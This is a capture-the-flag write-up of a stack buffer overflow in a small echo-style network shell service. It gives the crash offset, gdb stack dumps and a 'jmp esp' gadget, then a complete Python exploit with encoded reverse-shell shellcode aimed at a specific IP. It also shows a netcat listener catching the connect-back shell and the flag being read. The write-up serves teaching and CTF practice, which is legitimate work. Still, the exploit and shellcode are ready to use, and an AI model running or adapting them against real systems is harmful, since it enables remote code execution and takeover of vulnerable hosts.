 ### Solved by superkojiman

A relatively straightforward buffer overflow. The shell asks for a command, and that command is "echo" followed by our input. Any unrecognized commands returns an error: 

```
# nc localhost 9000
fash$ help
Error - unsupported command

# nc localhost 9000
fash$ echo AAAAA
echo: AAAAA
```
We can overflow return pointer in function 0x8048908 when sprintf() is used to copy our input to a buffer. We need to send 118 bytes of junk, followed by the overwrite to the saved return pointer: 

```
# nc localhost 9000
fash$ echo AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
```

No message is returned to us since we've crashed it. We can examine the dumped core:

```
# gdb -q -c core
[New LWP 9398]
Core was generated by `./srv'.
Program terminated with signal 11, Segmentation fault.
#0  0x42424242 in ?? ()
```

Return pointer has been overwritten. We don't control any of the registers, but esp contains our string of "C"s:

```
gdb-peda$ x/40wx $esp
0xbfffd2a0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbfffd2b0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbfffd2c0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbfffd2d0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbfffd2e0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbfffd2f0: 0x43434343  0x43434343  0x43434343  0x43434343
0xbfffd300: 0x43434343  0x00000a0a  0x00000000  0x00000000
0xbfffd310: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfffd320: 0x00000000  0x00000000  0x00000000  0x00000000
0xbfffd330: 0x00000000  0x00000000  0x00000000  0x00000000
```

Using msfelfscan, we can find a "jmp esp" instruction:

```
# msfelfscan -j esp srv
[srv]
0x080488b0 jmp esp
```

The binary has no NX or canary so we can execute our shellcode on the stack. Here's the final exploit that uses a reverse shell to connect back to us: 

```python
import socket, struct

ip = "54.163.248.69"
port = 9000


# [*] x86/shikata_ga_nai succeeded with size 95 (iteration=1)
shellcode = (
"\x90"*20 +

"\xbe\x6e\x3c\xa7\x19\xd9\xc0\xd9\x74\x24\xf4\x5b\x29\xc9" +
"\xb1\x12\x83\xc3\x04\x31\x73\x0e\x03\x1d\x32\x45\xec\xd0" +
"\x91\x7e\xec\x41\x65\xd2\x99\x67\xe0\x35\xed\x01\x3f\x35" +
"\x9d\x94\x0f\x09\x6f\xa6\x39\x0f\x96\xce\xd1\x6c\x90\x29" +
"\x4a\x71\x61\x34\x31\xfc\x80\x86\x23\xaf\x13\xb5\x18\x4c" +
"\x1d\xd8\x92\xd3\x4f\x72\x02\xfb\x1c\xea\x34\x2c\x81\x83" +
"\xaa\xbb\xa6\x01\x60\x35\xc9\x15\x8d\x88\x8a"
)

buf =  "A"*118
buf += struct.pack("<I", 0x080488b0)    # ret addr: jmp esp
buf += shellcode

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

print s.recv(1024)
s.send("echo " + buf)
print s.recv(1024)
```

Running the exploit gives us a shell on the target: 

```text
root@vulnhub:~# nc -lvp 443
listening on [any] 443 ...
connect to [104.131.248.39] from ec2-54-163-248-69.compute-1.amazonaws.com [54.163.248.69] 56033
id
/bin//sh: 1: id: not found
```

We have a weird shell, but we can read files using bash: 

```
echo *
bin etc flag.txt lib srv
```

flag.txt contains our flag. Let's read it:

```
while read line; do echo $line; done < flag.txt
aleph1-to-the-rescue++
```

The flag is **aleph1-to-the-rescue++**

